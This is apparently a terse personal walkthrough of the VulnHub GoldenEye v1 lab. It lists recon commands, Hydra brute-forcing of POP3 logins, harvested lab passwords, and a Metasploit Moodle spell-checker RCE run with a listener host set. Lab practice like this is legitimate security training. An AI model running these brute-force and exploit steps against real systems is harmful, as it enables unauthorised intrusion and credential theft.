 ```yaml
---
{"tags":["vulnhub","walkthrought"],"dg-publish":true,"permalink":"/exploit-from-kali/golden-eye-vulnerability/","dgPassFrontmatter":true,"noteIcon":""}
---
```


	
	Goldenn eye v1 passthrough
	
	PORT      STATE SERVICE
	25/tcp    open  smtp
	80/tcp    open  http
	55006/tcp open  unknown
	55007/tcp open  unknown
	
	encoded password -InvincibleHack3r
	
	user	password
	boris	secret1!
	natalya	bird   
	xenia  RCP90rulez!
	doak 	goat
	username: dr_doak
	password: 4England!
	hash 	eFdpbnRlcjE5OTV4IQ==
	admin  xWinter1995x!
	
	arp
```
	sudo netdiscover -r 192.168.0.0/24 -i eth0
```
	./nmapAutomator.sh 192.168.0.199 All
	192.168.0.199/terminal.js
	brup pro
	decoder option 
	&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
	
	InvincibleHack3r
	
	user	password
	boris	InvincibleHack3r
	http://192.168.0.199/sev-home/
	
	nc 192.168.0.199 55006
	LIST
	
	user boris
	pass secret1
	
	http://severnaya-station.com/gnocertdir
	mozilla proxy or host name
	
	sudo nano /etc/hosts
	192.168.0.199                 severnaya-station.com/gnocertdir
	
	WEBPAGE 
	VIEW PAGE SOURCE  INNSPECT 
	
	INDEX.JS
	telnet 192.168.0.199 55007
	
	sudo apt install hydra
	
	sudo apt install wordlists
	
	hydra -l boris -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 192.168.0.199 -s 55007 pop3
	
	nc 192.168.0.199 55007
	user boris
	pass secret1
	LIST
	+OK 3 messages:
	1 544
	2 373
	3 921
	RETR 1
	RETR 2
	RETR 3
	
	
	hydra -l doak -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 192.168.0.199 -s 55007 pop3
	
	nc 192.168.0.199 55007
	user doak
	pass secret1
	LIST
	+OK 3 messages:
	1 544
	2 373
	3 921
	RETR 1
	RETR 2
	RETR 3
	http://severnaya-station.com/gnocertdir
	username: dr_doak
	password: 4England!
	
	search   s3cret .txt
	http://severnaya-station.com/dir007key/for-007.jpg
	save file
	sudo apt install exiftool
	exiftool for-007.jpg 
	search image discription >>>>> eFdpbnRlcjE5OTV4IQ==
	https://www.base64decode.org/
	eFdpbnRlcjE5OTV4IQ==
	      decode
	xWinter1995x!
	
	http://severnaya-station.com/
	admin  xWinter1995x
	site administration>Plugins>Text editor>manage editor>
	Pspellshell
	search google pspell shell exploit
	
	msfconsole
	search moodle
	use exploit/multi/http/moodle_spelling_path_rce
	choose zero
	show info
	options
	set PASSWORD xWinter1995x!
	set RHOSTS severnaya-station.com
	set targeturi /gnocertdir
	set LHOST 192.168.0.181
	control l key press
	options
	run
	https://github.com/jseidl/GoldenEye
	service tor start
	
	sudo apt-get install etherape
	sudo etherape